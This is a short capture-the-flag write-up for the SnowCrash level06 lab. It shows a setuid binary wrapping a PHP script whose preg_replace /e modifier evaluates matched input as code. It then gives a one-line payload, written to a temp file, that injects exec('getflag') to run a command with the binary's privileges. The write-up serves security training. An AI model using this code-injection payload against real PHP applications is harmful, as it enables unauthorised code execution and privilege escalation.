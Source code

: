 
```bash
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

```php
level06@SnowCrash:~$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { 
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}

function x($y, $z) {
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}

$r = x($argv[1], $argv[2]);
print $r;

?>
level06@SnowCrash:~$
```

/e will execute the code that matched by the regex.

```bash
echo '[x {${exec('getflag')}}]' > /tmp/file
./level06 /tmp/file
```

By executing `level06`, `getflag` will be invoked and executed, thus retrieving the flag.